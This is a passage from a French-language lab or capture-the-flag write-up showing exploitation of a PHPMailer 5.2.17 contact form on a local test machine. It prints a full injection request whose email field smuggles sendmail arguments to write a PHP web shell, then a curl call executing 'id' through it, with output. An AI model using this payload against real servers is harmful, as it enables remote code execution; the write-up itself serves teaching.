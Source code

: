 ```console
POST /contact.php HTTP/1.1
Host: 192.168.56.102
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html, */*; q=0.01
Accept-Language: fr-FR,fr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.102/contact.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 199
DNT: 1
Connection: close

action=submit&name=name&email="attacker\" -oQ/tmp/ -X/var/www/html/vendor/blinils.php some"@email.com&subject=subject&message=<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>
```

Et hop ! On obtient un nouveau fichier dans le répertoire /vendor.

![Affichage de l'image INDEX-Vendor.png](INDEX-Vendor.png)

Le fichier nouvellement créé ressemble effectivement à un fichier de log. À un détail près : si on appelle ce fichier de log en renseignant correctement le paramètre _cmd_ dans l'URL, il est possible d'exécuter du code sur le serveur. Exemple avec la commande _id_ qui équivaut à _aWQ=_ en [base64](https://fr.wikipedia.org/wiki/Base64).

```console
root@blinils:~# curl -s http://192.168.56.102/vendor/blinils.php?cmd=aWQ= | head -n 15
01211 >>> some"@email.com... Unbalanced '"'
01211 <<< To: Hacker <admin@vulnerable.com>
01211 <<< Subject: Message from name
01211 <<< X-PHP-Originating-Script: 0:class.phpmailer.php
01211 <<< Date: Fri, 16 Nov 2018 20:20:27 +1100
01211 <<< From: Vulnerable Server <"attacker\" -oQ/tmp/ -X/var/www/html/vendor/blinils.php some"@email.com>
01211 <<< Message-ID: <0231383ec9ede649a79d84a0800f8361@192.168.56.102>
01211 <<< X-Mailer: PHPMailer 5.2.17 (https://github.com/PHPMailer/PHPMailer)
01211 <<< MIME-Version: 1.0
01211 <<< Content-Type: text/plain; charset=iso-8859-1
01211 <<< 
01211 <<< uid=33(www-data) gid=33(www-data) groups=33(www-data)
|dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSk=|01211 <<< 
01211 <<< [EOF]
```